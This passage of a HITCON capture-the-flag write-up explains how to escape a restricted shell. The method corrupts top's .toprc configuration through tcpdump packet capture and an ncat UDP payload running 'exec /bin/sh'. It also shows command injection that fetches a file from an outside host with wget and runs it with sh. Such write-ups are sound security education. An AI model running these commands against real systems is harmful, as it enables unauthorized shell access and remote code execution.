@kaibro found `top` can [be abused to RCE](https://gtfobins.github.io/gtfobins/top/#shell), if we can write arbitray contents to `.toprc`. Therefore the idea is to `tcpdump -w .toprc` and run `top` to get shell.

Unfortunately, with `tcpdump -w` we can only partial control the output packet. `top` requires the header of `.toprc` to be correct. Otherwise it will fail to launch.

We also note that `top` can also save the initla configuration (with the correct header) to `.toprc` by pressing `W` in `top`. Thus, our exploit idea is:

1. run `top` in shell A, and save a correct `.toprc` file
2. run `tcpdump -w` in shell B to write `.toprc`. Now the `.toprc` is corrupted
3. send 7 - 8 packets to move the `tcpdump -w` offest after the header
5. save a correct `.toprc` file in shell A again
6. send the payload packets so `tcpdump -w` write the command after the coorect header
7. restart `top` in shell A and press `Y, <enter>, <enter>` to get shell

To control the output of `tcpdump packets`, `ping` and `traceroute` can be used. We use the UDP packet respone in `traceroute`.


tcpdump to `.toprc`:

```
tcpdump -n -i eth0 -w /home/oShell/.toprc -U -A udp port 42345 -vvvv
```

The UDP response which contains our payload:

```
ncat -klu 42345 -v --sh-exec "echo -e '\npipe\tx\texec /bin/sh 1>&0 2>&0'"
```

The traceroute command. We need to specify the first hop number in `-f` and the UDP base port `-p`:

```
traceroute -i eth0 -p 42344 -f 12 240.240.240.240
```

Flag: `HITCON{A! AAAAAAAAAAAA! SHAR~K!!!}`

### Baby Shark


Command injection using `;`:

```sh
ls ; wget kaibro.tw
ls ; sh index.html
```

Flag: `hitcon{i_Am_s0_m155_s3e11sh0ck}`

### Baby Shark Revenge

#### Solution 1

by [@kaibro](https://twitter.com/kaikaibro)

Command injection using `()`. Bypass `.` limitation using decimal ip address.
